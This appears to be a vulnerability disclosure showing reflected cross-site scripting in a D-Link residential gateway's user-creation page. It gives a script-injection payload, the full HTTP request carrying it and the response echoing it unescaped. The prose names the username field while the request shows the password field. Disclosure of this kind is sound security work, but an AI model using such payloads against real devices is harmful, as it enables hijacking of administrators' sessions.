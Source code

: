 Here I show an example of the vulnerability in the page used to creare a new user for accessing a shared folder. If the username is something like `a"><script>alert('xss');</script>`, the web interface generates an error and reflects back the value of the username back in the input form.


```
POST /ui/dboard/storage/storageusers/addstorageusers HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.100.1/ui/dboard/storage/storageusers/addstorageusers
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Connection: close
Cookie: sid=8838526573981467247
Upgrade-Insecure-Requests: 1

enable=true&username=az%5C&password=a%22%3E%3Cscript%3Ealert%28%27xss%27%29%3B%3C%2Fscript%3E&passwordShow=on&action__key=1587374836_1442851124&apply=Applica

```

The response being the following where you can see the payload being reflected.
```
HTTP/1.1 200 OK
Date: Thu, 24 Jan 2019 11:19:25 UTC
Server: HTTP Server
X-Frame-Options: DENY
Connection: close
Content-Language: en
Content-Type: text/html
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Content-Length: 6829


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
<head>
[...]
	<title>Residential Gateway - D-Link</title>
	

[...]
<div class="formField" id="password">
	<label for="password">Password:</label>
	<div class="passwordField">

<input type="password" autocomplete="off" name="password" value="a"><script>alert('xss');</script>" autocomplete='off'/>
<span class='text' style='visibility:hidden'><input type='checkbox' name='passwordShow' tabindex='-1'/> mostra password</span>
<script>
fieldPassword('password', 'passwordShow', 1, 0);
</script>

	</div>
</div>
<div class="formField">
<label>Seleziona Gruppi:</label>
<span class='texterror'>Groups not configured</span>
```